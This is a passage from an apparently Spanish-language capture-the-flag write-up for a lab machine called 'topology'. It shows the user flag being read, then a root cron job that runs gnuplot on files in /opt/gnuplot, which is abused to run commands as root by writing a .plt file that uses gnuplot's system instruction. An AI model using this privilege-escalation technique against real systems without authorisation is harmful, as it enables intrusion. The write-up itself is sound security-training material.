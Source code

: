 ```bash
drwx------ 3 vdaisley vdaisley 4096 May 19 13:04 .config
-rw-r--r-- 1 vdaisley vdaisley  807 Jan 17  2023 .profile
-rw-r----- 1 root     vdaisley   33 Nov  3 11:36 user.txt
vdaisley@topology:~$ cat user.txt
31d94075f4dba301c835e719be******
```

## Escalada de privilegios

Hay una tarea que está ejecutando archivos de gnuplot en el directorio `/opt/gnuplot` como root

```bash
... [snip]
2023/11/03 14:23:01 CMD: UID=0     PID=6702   | gnuplot /opt/gnuplot/loadplot.plt 
2023/11/03 14:23:01 CMD: UID=0     PID=6701   | sed s/,//g 
2023/11/03 14:23:01 CMD: UID=0     PID=6700   | cut -d  -f 3 
2023/11/03 14:23:01 CMD: UID=0     PID=6699   | grep -o load average:.*$ 
2023/11/03 14:23:01 CMD: UID=0     PID=6698   | uptime 
2023/11/03 14:23:01 CMD: UID=0     PID=6691   | /bin/sh /opt/gnuplot/getdata.sh 
2023/11/03 14:23:01 CMD: UID=0     PID=6689   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/11/03 14:23:01 CMD: UID=0     PID=6688   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/11/03 14:23:01 CMD: UID=0     PID=6687   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
2023/11/03 14:23:01 CMD: UID=0     PID=6686   | /usr/sbin/CRON -f 
2023/11/03 14:23:01 CMD: UID=0     PID=6685   | /usr/sbin/CRON -f 
... [snip]
```

Estos archivos sirven para generar gráficas según los parámetros e instrucciones que le introduzca, parecido a `matplotlib` solo que sin la parte de programación. Buscando por instrucciones de las que podamos abusar de este programa encontramos:

> system "command string"
>
> system "command" executes "command" in a subprocess by invoking the operating system's default shell. If called as a function, system("command") returns the character stream from the subprocess's stdout as a string. One trailing newline is stripped from the resulting string if present. See also backquotes.

Siendo así esta instrucción, con solamente crear un archivo plt con lo siguiente

```bash
system "echo 1 > /tmp/uwuowo"
```

Ya podemos ejecutar comandos con total privilegio

```bash
vdaisley@topology:/tmp$ cd /opt/gnuplot/
vdaisley@topology:/opt/gnuplot$ echo 'system "echo 1 > /tmp/asd"' > uwu.plt 
... [wait for it]
vdaisley@topology:/opt/gnuplot$ ls -la /tmp
total 3088
drwxrwxrwt 13 root     root        4096 Nov  3 14:29 .
drwxr-xr-x 18 root     root        4096 Jun 12 10:37 ..
-rw-r--r--  1 root     root           2 Nov  3 14:29 asd <-------
drwxrwxrwt  2 root     root        4096 Nov  3 11:35 .font-unix
drwxrwxrwt  2 root     root        4096 Nov  3 11:35 .ICE-unix
-rwxrwxr-x  1 vdaisley vdaisley 3104768 Sep 15 21:25 pspy64
drwx------  3 root     root        4096 Nov  3 11:35 systemd-private-8852126f0a5c451abf74265aff631f83-apache2.service-Pbxqpf
drwx------  3 root     root        4096 Nov  3 11:35 systemd-private-8852126f0a5c451abf74265aff631f83-ModemManager.service-Ef2B8g
drwx------  3 root     root        4096 Nov  3 11:35 systemd-private-8852126f0a5c451abf74265aff631f83-systemd-logind.service-ddU6Ig
drwx------  3 root     root        4096 Nov  3 11:35 systemd-private-8852126f0a5c451abf74265aff631f83-systemd-resolved.service-0fqgUi
```